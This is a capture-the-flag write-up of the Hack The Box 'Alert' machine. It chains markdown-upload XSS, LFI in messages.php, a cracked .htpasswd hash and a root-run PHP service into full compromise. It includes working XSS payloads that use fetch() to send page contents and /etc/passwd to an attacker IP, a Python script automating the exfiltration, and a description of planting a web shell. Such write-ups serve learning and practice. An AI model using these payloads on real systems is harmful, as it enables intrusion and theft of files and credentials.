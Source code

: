 ```yaml
---
layout: post
title:  "[HTB] Alert"
date:   2025-01-17
categories: CTF
---
```


As usual let us start with our nmap scan

---
└─$ nmap 10.10.11.44          
Starting Nmap 7.94 ( https://nmap.org ) at 2024-12-06 03:48 EST
Nmap scan report for alert.htb (10.10.11.44)
Host is up (0.064s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
---

Seeing that we only have ports 22 and 80 here, highly likely our initial access will come from port 80. So let us visit port 80 and see that this is a markdown viewer of some sort wherein we can upload md files.

![alt text](/assets/uploads/htb-alert/image.png)

Trying to upload an md file, we see that it doesnt filter out any html and script tags, and it generates a share link for us. So we can leverage this by creating an XSS payload and sending this to the admin side. But how can we send this to the admin side?  

![alt text](/assets/uploads/htb-alert/image-2.png)

![alt text](/assets/uploads/htb-alert/image-1.png)

Upon looking at the web application, we see that there is a contact us feature which is exactly what we need. 

![alt text](/assets/uploads/htb-alert/image-3.png)

We can more or less deduce that our path would be to create a blind XSS payload and send it to the admin side and gain more information about the machine. 

To try this hypothesis, we create a basic blind xss payload as follows `<script src="//10.10.14.32/zw1tt3r1on.test"></script>`. When we try and upload this file and share it to the admin side by the contact us page, we see that we get a callback from the server

![alt text](/assets/uploads/htb-alert/image-4.png)

From here, we can craft a specific payload to try and fetch the homepage and send the data back to us

---
<script>
fetch("http://alert.htb/")
  .then(response => response.text()) // Convert the response to text
  .then(data => {
    fetch("http://10.10.14.32/?data=" + encodeURIComponent(data)); // Exfiltrate data
  })
  .catch(error => console.error("Error fetching the messages:", error));
</script>
---

We discover now that there is a hidden endpoint called "messages" which corresponds to messages.php.

![alt text](/assets/uploads/htb-alert/image-5.png)

Trying to fetch this messages.php gives us an interesting parameter called "file". 

<script>
fetch("http://alert.htb/messages.php")
  .then(response => response.text()) // Convert the response to text
  .then(data => {
    fetch("http://10.10.14.32/?data=" + encodeURIComponent(data)); // Exfiltrate data
  })
  .catch(error => console.error("Error fetching the messages:", error));
</script>
---

![alt text](/assets/uploads/htb-alert/image-6.png)

Testing this file parameter, we discover that this is vulnerable to a LFI. We can now use this to fetch files within the machine. Sample below is fetching the /etc/passwd file on the machine.

---
<script>
fetch("http://alert.htb/messages.php?file=../../../../../../etc/passwd")
  .then(response => response.text()) // Convert the response to text
  .then(data => {
    fetch("http://10.10.14.32/?data=" + encodeURIComponent(data)); // Exfiltrate data
  })
  .catch(error => console.error("Error fetching the messages:", error));
</script>
---

![alt text](/assets/uploads/htb-alert/image-7.png)

Now we just need to enumerate the machine and look for interesting files. For this, I create a very simple python script to automatically upload the md file and send the link to the contact us page as shown below

---
import requests, re

def send_to_contact(file_name):
    burp0_url = "http://alert.htb:80/contact.php"
    burp0_headers = {"Cache-Control": "max-age=0", "Upgrade-Insecure-Requests": "1", "Origin": "http://alert.htb", "Content-Type": "application/x-www-form-urlencoded", "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/115.0.5790.171 Safari/537.36", "Accept": "text/html,application/xhtml+xml,application/xml;q=0.9,/assets/uploads/htb-alert/image/avif,/assets/uploads/htb-alert/image/webp,/assets/uploads/htb-alert/image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7", "Referer": "http://alert.htb/index.php?page=contact&status=Message%20sent%20successfully!", "Accept-Encoding": "gzip, deflate", "Accept-Language": "en-US,en;q=0.9", "Connection": "close"}
    burp0_data = {"email": "jl@jl.com", "message": file_name}
    requests.post(burp0_url, headers=burp0_headers, data=burp0_data)


def send_md_request(file_path):
    burp0_url = "http://alert.htb:80/visualizer.php"
    burp0_headers = {
        "Cache-Control": "max-age=0",
        "Upgrade-Insecure-Requests": "1",
        "Origin": "http://alert.htb",
        "Content-Type": "multipart/form-data; boundary=----WebKitFormBoundaryJFBXbjnjqVK66x3C",
        "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/115.0.5790.171 Safari/537.36",
        "Accept": "text/html,application/xhtml+xml,application/xml;q=0.9,/assets/uploads/htb-alert/image/avif,/assets/uploads/htb-alert/image/webp,/assets/uploads/htb-alert/image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7",
        "Referer": "http://alert.htb/index.php?page=alert",
        "Accept-Encoding": "gzip, deflate",
        "Accept-Language": "en-US,en;q=0.9",
        "Connection": "close"
    }
    burp0_data = f"""------WebKitFormBoundaryJFBXbjnjqVK66x3C\r\nContent-Disposition: form-data; name="file"; filename="jltest.md"\r\nContent-Type: text/markdown\r\n\r\n<script>
fetch("http://alert.htb/messages.php?file={file_path}")
  .then(response => response.text()) // Convert the response to text
  .then(data => {{
    fetch("http://10.10.14.32/?d1=" + encodeURIComponent(data)); // Exfiltrate data
  }})
  .catch(error => console.error("Error fetching the messages:", error));
</script>\r\n------WebKitFormBoundaryJFBXbjnjqVK66x3C--\r\n"""
    response = requests.post(burp0_url, headers=burp0_headers, data=burp0_data)

    regex_template = r'href="(http://alert\.htb/visualizer\.php\?link_share=[^"]+)"'
    match = re.search(regex_template, str(response.text))
    url = match.group(1)
    print('sending url: ', url)
    send_to_contact(url)

while True:
    send_md_request(input('enter path: '))

---

![alt text](/assets/uploads/htb-alert/image-8.png)

Looking at the 000-default.conf file, we see that there is another subdomain called statistics

![alt text](/assets/uploads/htb-alert/image-10.png)

![alt text](/assets/uploads/htb-alert/image-9.png)

Visiting the statistics subdomain gives us a basic auth login 

![alt text](/assets/uploads/htb-alert/image-11.png)

Since we have a way to read local files within the machine, we can read the .htpasswd file of statistics.alert.htb at /var/www/statistics.alert.htb/.htpasswd and we get the credentials of the user "albert"

![alt text](/assets/uploads/htb-alert/image-13.png)

![alt text](/assets/uploads/htb-alert/image-12.png)

Cracking this hash, we get the password is "manchesterunited". 

![alt text](</assets/uploads/htb-alert/2024-12-06 16_28_45.png>)

We can now use this to login using ssh and we get our user flag

![alt text](/assets/uploads/htb-alert/image-16.png)

Looking for possible privilege escalation pathways, we observe that there is a php process running serving files on port 8080 as root. 

![alt text](</assets/uploads/htb-alert/2024-12-06 16_42_12.png>)

So we port forward this using ssh and take a look at what it is exactly running

![alt text](/assets/uploads/htb-alert/image-14.png)

![alt text](/assets/uploads/htb-alert/image-15.png)

Since it is serving files on the /opt/website-monitor directory, we just need to find a way to write something in the /opt/website-monitor and get a php shell.

![alt text](/assets/uploads/htb-alert/image-17.png)

Since we know that we can write in the config and monitors folder, let us quickly write a php web shell and visit that page 

![alt text](/assets/uploads/htb-alert/image-18.png)

![alt text](/assets/uploads/htb-alert/image-19.png)

From here we can just get a reverse shell using our web shell and get the root flag, or just simply cat the root flag using this web shell

![alt text](/assets/uploads/htb-alert/image-20.png)

Pwned!!

![alt text](/assets/uploads/htb-alert/image-21.png)